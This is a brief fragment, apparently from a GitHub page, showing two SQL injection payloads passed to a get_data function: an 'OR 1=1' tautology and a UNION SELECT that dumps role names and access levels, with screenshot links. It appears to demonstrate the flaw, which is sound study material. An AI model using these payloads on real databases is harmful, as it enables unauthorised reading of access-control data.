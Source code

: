 SELECT * FROM get_data('1'' OR 1=1 -- ');

<img width="540" alt="image" src="https://user-images.githubusercontent.com/27497026/210149731-68049096-da37-403d-84e4-5d1f01232228.png">


SELECT * FROM get_data('1'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS INTEGER) FROM role_access_level -- ');

<img width="540" alt="image" src="https://user-images.githubusercontent.com/27497026/210150067-8f185c6c-0059-45da-b590-de7d1b137e85.png">


